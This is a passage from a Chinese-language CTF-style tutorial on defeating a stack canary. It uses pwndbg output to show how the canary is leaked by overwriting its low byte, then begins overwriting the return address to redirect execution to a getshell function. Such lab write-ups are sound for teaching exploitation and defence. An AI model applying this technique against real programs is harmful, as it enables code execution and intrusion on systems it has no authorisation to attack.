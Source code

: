 ```asm
07:0038│          0x7ffd97aa0448 —▸ 0x557c8443aa6a ◂— mov    eax, 0
Breakpoint *(0x557c8443a000+0xA08)
pwndbg> canary
$1 = 0
canary : 0xb3012605fc402a00
pwndbg>
```

canary 在 rbp - 0x8 的位置上, 可以看出此時 canary 的低位已經被覆蓋爲 0x61, 這樣只要接收 'a' * (0x30 - 0x8 + 1) 後的 7 位, 再加上最低位的 '\0', 我們就恢復出程序的 canary 了

#### 覆蓋返回地址
有了 canary 後, 就可以通過第二次的棧溢出來改寫返回地址了, 控制返回地址到 getshell 函數即可, 我們先看一下沒溢出時的返回地址

```asm
0x000055dc43694a1e in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────
 RAX  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
 RBX  0x0
 RCX  0x7f206c6696f0 (__write_nocancel+7) ◂— cmp    rax, -0xfff
 RDX  0x60
 RDI  0x0
 RSI  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
 R8   0x7f206cb22700 ◂— 0x7f206cb22700
 R9   0x3e
 R10  0x73
 R11  0x246
 R12  0x55dc43694830 ◂— xor    ebp, ebp
 R13  0x7fff9aa3b050 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fff9aa3af50 —▸ 0x7fff9aa3af70 —▸ 0x55dc43694a80 ◂— push   r15
 RSP  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
 RIP  0x55dc43694a1e ◂— call   0x55dc436947f0
───────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────
   0x55dc43694a08    call   0x55dc436947e0
 
   0x55dc43694a0d    lea    rax, [rbp - 0x30]
   0x55dc43694a11    mov    edx, 0x60
   0x55dc43694a16    mov    rsi, rax
   0x55dc43694a19    mov    edi, 0
 ► 0x55dc43694a1e    call   0x55dc436947f0
 
   0x55dc43694a23    mov    eax, 0
   0x55dc43694a28    mov    rcx, qword ptr [rbp - 8]
   0x55dc43694a2c    xor    rcx, qword ptr fs:[0x28]
   0x55dc43694a35    je     0x55dc43694a3c
 
   0x55dc43694a37    call   0x55dc436947c0
────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────
00:0000│ rax rsi rsp  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓
05:0028│              0x7fff9aa3af48 ◂— 0xbfe0cfbabccd2861
06:0030│ rbp          0x7fff9aa3af50 —▸ 0x7fff9aa3af70 —▸ 0x55dc43694a80 ◂— push   r15
07:0038│              0x7fff9aa3af58 —▸ 0x55dc43694a6a ◂— mov    eax, 0
pwndbg> x/10i (0x0A3E+0x55dc43694000) 
   0x55dc43694a3e:	push   rbp
   0x55dc43694a3f:	mov    rbp,rsp
   0x55dc43694a42:	lea    rdi,[rip+0xd7]        # 0x55dc43694b20
   0x55dc43694a49:	call   0x55dc436947d0
```